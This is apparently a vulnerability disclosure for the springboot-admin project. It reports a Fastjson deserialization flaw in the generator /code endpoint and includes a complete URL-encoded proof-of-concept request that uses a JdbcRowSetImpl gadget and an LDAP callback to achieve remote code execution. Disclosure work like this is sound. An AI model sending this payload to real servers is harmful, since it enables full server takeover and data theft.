





**[springboot-admin](https://github.com/opplus/springboot-admin) Vulnerability Risk Report**

**Vulnerability Location:**
In the `@RequestMapping("/code")` endpoint of the `SysGeneratorController.java` class, specifically in the `JSON.parseArray(tables)` call.



**Vulnerability Description:**
The code uses the Fastjson library without enabling SafeMode or disabling AutoType features. The `JSON.parseArray()` method directly parses unvalidated user input (`tables` parameter). When using Fastjson ≤1.2.83, an attacker could craft malicious JSON data to achieve **Remote Code Execution (RCE)**.


The project is using a vulnerable version of Fastjson.

**Impact:**

- Remote Code Execution (RCE)
- Sensitive server data leakage
- Full server compromise

POC：

```
GET /vgk/dev/admin/sys/generator/code?X-Token=0a5e52568d4e5909d8c18e713c7bc50a&tables=[%7b%22%65%22%3a%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6c%61%6e%67%2e%43%6c%61%73%73%22%2c%22%76%61%6c%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%7d%2c%22%66%22%3a%7b%22%40%74%79%70%65%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%2c%22%64%61%74%61%53%6f%75%72%63%65%4e%61%6d%65%22%3a%22%6c%64%61%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%31%32%2f%4f%62%6a%65%63%74%22%2c%22%61%75%74%6f%43%6f%6d%6d%69%74%22%3a%74%72%75%65%7d%7d] HTTP/1.1
Host: 172.20.10.3:8889
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.3:8889/vgk/dev/admin/modules/sys/generator.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=bf1aebc9-2d47-47e5-8480-701256c9f1cc
x-forwarded-for: 127.0.0.1
Connection: close


```

**Proof of Vulnerability:**

Establish an LDAP service and load malicious code to exploit the deserialization flaw.

Exploitation via Malicious Tables Parameter



Successful code execution

